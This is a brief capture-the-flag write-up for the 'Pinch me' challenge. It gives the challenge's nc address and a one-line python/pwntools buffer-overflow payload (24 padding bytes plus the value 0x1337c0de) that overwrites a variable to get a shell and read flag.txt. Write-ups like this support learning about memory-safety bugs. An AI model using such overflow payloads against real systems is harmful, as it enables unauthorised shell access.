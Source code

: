 ## Pinch me

### Challenge Description  
This should be easy!   
```nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480```

### Writeup
We are given a server and its binary. We have to overwrite a variable to get shell access.  
Here is the command:  
```
(python2.7 -c "import pwn; print 'A'*24 + pwn.p64(0x000000001337c0de)"; cat) | ./pinch_me
```
then use `ls` and you see there is a `flag.txt` file. use `cat` to see file content.  
![res](res.png)